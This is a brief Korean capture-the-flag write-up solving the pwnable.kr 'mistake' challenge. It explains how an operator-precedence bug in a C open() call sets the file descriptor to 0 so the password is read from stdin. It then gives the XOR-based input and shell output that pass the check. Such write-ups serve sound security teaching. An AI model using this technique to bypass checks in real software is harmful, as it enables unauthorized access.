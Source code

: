 * 실행해 보면 do not bruteforce.... 하고는 그냥 아무것도 안나온다. 소스를 보면 input password라고 떠야 할것 같은데
* 자세히 보면 이 부분에 문제가 있다
~~~
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
~~~
* 사실 (fd=open("/home/mistake/password",O_RDONLY,0400)) < 0 을 의도했겠지만 연산자 우선순위 때문에 fd = (open("/home/mistake/password",O_RDONLY,0400) < 0) 되어서 fd에 0이 들어가 버렸다.
* 실제로 아무거나 10자를 치면 input password가 나오는것을 볼 수 있다
* pw_buf2 ^ 1 한게 pw_buf와 같으면 되는데 pw_buf와 pw_buf2를 우리가 모두 정할수 있으므로 ^1 했을때 같게 하면 된다

~~~
mistake@pwnable:~$ ./mistake
do not bruteforce...
bbbbbbbbbb
input password : cccccccccc
Password OK
Mommy, the operator priority always confuses me :(
~~~